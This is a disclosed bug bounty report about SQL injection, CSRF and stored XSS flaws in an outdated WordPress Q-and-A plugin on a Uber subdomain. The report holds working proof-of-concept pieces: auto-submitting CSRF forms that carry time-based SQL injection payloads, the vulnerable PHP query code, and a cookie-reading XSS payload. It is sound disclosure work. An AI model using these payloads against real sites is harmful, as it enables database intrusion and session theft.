 # Multiple vulnerabilities in a WordPress plugin at drive.uber.com

## Report Details
- **Report ID**: 135288
- **URL**: https://hackerone.com/reports/135288
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-04-29T02:57:55.343Z
- **Disclosed**: 2016-08-23T20:13:36.554Z

## Reporter
- **Username**: 0xsyndr0me
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: uber

## Vulnerability Information
Hi again,

The story begins when I started looking at https://drive.uber.com/ukmarketplace/welcome/, at the first glance I noticed that you are running WordPress 4.4.2 (which you probably know is outdated now [[1]](https://codex.wordpress.org/Version_4.5#Security) ). So first you need to update to the latest version to patch the publicly known vulnerabilities.

When I looked at the plugins, all of them were up-to-date. However, when I looked up WordPress plugins for **q-and-a** plugin, I could not find it. It was removed from WordPress. So I googled any known vulnerabilities in the plugin and I found that it's vulnerable to Full Path Disclosure but the technical details of the vulnerability went down when OSVDB decided to go down [[2]](https://wpvulndb.com/vulnerabilities/7049). 

Communicated developers but said it's no longer supported, and contacting you without a solid bug in hand would be useless, So I decided to download the latest known version from WordPress Plugin Repository [[3]] (http://plugins.svn.wordpress.org/q-and-a/trunk/) -Which is the one you are running (1.0.6.2)- and try my luck. 

## Background  
The attack requires a logged-in administrator of the blog to visit an attacker-controlled website. 

## Vulnerabilities

### SQL INJECTION(s)
I discovered that one endpoint is vulnerable to 2 SQL injection vulnerabilities due to non-escaping of certain parameters

#### 1st Vulnerability

**Steps to reproduce**
1. Create a page with the following code

```
<form action="https://drive.uber.com/ukmarketplace/wp-admin/edit.php?post_type=qa_faqs&page=faqpageorder" target="_blank"  method="post" style="display: none;">
            <input type="text" name="btnOrderPages" value="Click to Reorder FAQs" />
            <input type="text" name="hdnfaqpageorder" value="id_8,id_7" />
            <input type="text" name="hdnParentID" value="IF(MID(VERSION(),1,1) = 5, SLEEP(5), 0)" />
            <input type="text" name="btnReturnParent" value="1" />
            <input type="submit" name="send" value="Save" />
</form>
<script type="text/javascript">
document.forms[0].submit();
</script>
```
2. Visit the page with a logged-in administrator account

The payload used, confirms that the current database version is 5.x.x by sleeping 5 seconds

Vulnerability exists due to POST data not being escaped before injecting into query at `plugins/q-and-a/inc/reorder.php`

```
45. if (isset($_POST['btnReturnParent'])) { 
46. 	$parentsParent = $wpdb->get_row("SELECT post_parent FROM $wpdb->posts WHERE ID = " . $_POST['hdnParentID'], ARRAY_N);
47. 	$parentID = $parentsParent[0];
48. }
```


#### 2nd Vulnerability
**Steps to reproduce**
1. Create a page with the following code

```
<form action="https://drive.uber.com/ukmarketplace/wp-admin/edit.php?post_type=qa_faqs&page=faqpageorder" target="_blank"  method="post" style="display: none;">
            <input type="text" name="btnOrderPages" value="Click to Reorder FAQs" />
            <input type="text" name="hdnfaqpageorder" value="id_8,id_7" />
            <input type="text" name="hdnParentID" value="" />
            <input type="text" name="pages" value="IF(MID(VERSION(),1,1) = 5, SLEEP(5), 0)" />
            <input type="text" name="btnSubPages" value="1" />
            <input type="submit" name="send" value="Save" />
</form>
<script type="text/javascript">
document.forms[0].submit();
</script>
```
2. Visit the page with a logged-in administrator account

The payload used, confirms that the current database version is 5.x.x by sleeping 5 seconds

Vulnerability exists due to POST data not being escaped before injecting into query at `plugins/q-and-a/inc/reorder.php`

```
38. if (isset($_POST['btnSubPages'])) { 
39. 	$parentID = $_POST['pages'];
40. }
41. elseif (isset($_POST['hdnParentID'])) { 
42. 	$parentID = $_POST['hdnParentID'];
43. }
```

```
253. function faqpageorder_pageQuery($parentID)
254. {
255. 	global $wpdb;
256.	return $wpdb->get_results("SELECT * FROM $wpdb->posts WHERE post_parent = $parentID and post_type = 'qa_faqs' AND post_status != 'trash' AND post_status != 'auto-draft' ORDER BY menu_order ASC");
257. }
```


### Cross-Site Scripting (XSS)
This turned out to be false positive or to be more accurate not possible to exploit remotely because the page is protected by CSRF nonce which is hard to obtain so remote attack vector will eventually fail. but since it is stored XSS, a malicious administrator can use it to inject javascript code into adminpanel.

**Steps to reproduce**
1. Log into admin panel
2. Go to Settings -> Q & A
3. Change FAQ homepage into your payload (`'"/autofocus/onfocus=alert(document.domain%2bdocument.cookie);//`)
4. Save Settings


### Cross-Site Request Forgery (CSRF)
As it has been clear from previous requests that FAQs reordering is vulnerable to CSRF which does not really pose a serious threat to the website.
**Vulnerable Endpoint:** http://localhost/wp/wp-admin/edit.php?post_type=qa_faqs&page=faqpageorder

## Final Note
Of course these are not all the bugs that exist in the plugin, I just made a quick test to prove that the plugin is vulnerable to serious threats. Do you really believe it is worth it to keep a no longer supported plugin? It's your call of course. However, when I communicated the developers of the plugin at madebyraygun.com for their assistance, this was their reply

>Sorry Abood, we have not developed or maintained that plugin for many years and do not have access to the source code or repository. The developer who was working on it more recently has pulled it from the WP repository, I believe. If you are responsible for a site that uses the plugin, **I would recommend removing it and using something that is more up to date**. 

Thank you for your time!

**References:**
[1] https://codex.wordpress.org/Version_4.5#Security
[2] https://wpvulndb.com/vulnerabilities/7049
[3] http://plugins.svn.wordpress.org/q-and-a/trunk/

## Attachments
No attachments
